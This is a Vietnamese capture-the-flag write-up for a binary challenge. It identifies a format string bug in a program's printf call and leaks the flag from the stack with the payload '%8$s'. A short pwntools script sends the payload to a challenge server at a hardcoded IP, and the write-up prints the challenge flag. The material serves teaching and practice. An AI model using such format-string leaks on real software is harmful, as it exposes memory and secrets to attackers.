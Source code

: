# kcscctf.site - Chall

Link challenge (Sẽ đóng vào 1/2/2022): http://kcscctf.site/challenges

Bạn cũng có thể tại challenge tại đây: [chall.zip](chall.zip)

File zip sẽ bao gồm 1 file:
- chall

Và chúng ta bắt đầu nào!

# 1. Tìm lỗi

Vẫn như thường lệ, ta sẽ dùng lệnh `file` để xem thuộc tính file:
```
chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=81e66a1016f28954891329304c6644250de76c87, for GNU/Linux 3.2.0, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file bằng `checksec`:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```
Ở đây, **NX enabled** (không thực thi stack được), **PIE enable** (địa chỉ chương trình sẽ thay đổi sau mỗi lần chạy) và **Full RELRO** (Các @got sẽ không thể overwrite được). Có thể sẽ khó khăn nhưng cứ xem tiếp như thế nào đã. Tiếp theo, ta sẽ mở file bằng ghidra để xem mã giả:

![main.png](images/main.png)

Ta có thể thấy được ở dòng 26 có lỗi **format string** với `printf(local_98)`, và hết.

# 2. Ý tưởng

Xem qua code, ta có thể thấy được rằng flag đã được đọc và lưu trên stack. Đồng thời ta cũng có lỗi **format string** giúp ta leak tất cả data có trên stack bao gồm cả flag.

# 3. Khai thác

Đầu tiên, ta tạo 1 file tên `flag.txt` ở máy local để thử nghiệm với nội dung `This_is_fake_flag`.Tiếp đến, ta sẽ chạy thử file chall trong gdb, đặt breakpoint ngay trước câu lệnh printf cuối cùng, chạy tới breakpoint và kiểm tra stack xem flag chúng ta nằm ở đâu:

![stack.png](images/stack.png)

Vừa chạy thử thì stack đã cho chúng ta biết flag nằm rất gần với địa chỉ rsp hiện tại. Vậy ta chỉ việc leak từ từ các giá trị của stack ra bằng format string `%<số thứ tự>$s` là sẽ được flag. Thử một hồi ta sẽ được vị trí bắt đầu flag là tại `%8$s`

![leak_stack.png](images/leak_stack.png)

Vậy ta chỉ việc kết nối tới server và nhập `%8$s` là sẽ lấy được flag

Script cho bạn nào cần:
```
from pwn import *

# p = process('./chall')
p = connect('45.77.39.59', 10003)

payload = b'%8$s'
p.recvuntil(b'> ')
p.sendline(payload)
print(p.recv())
```

# 4. Lấy cờ

![get_flag.png](images/get_flag.png)

Vậy flag là `KCSC{17888f2f-a1fd-40cd-9af1-86def4c3be7e}`




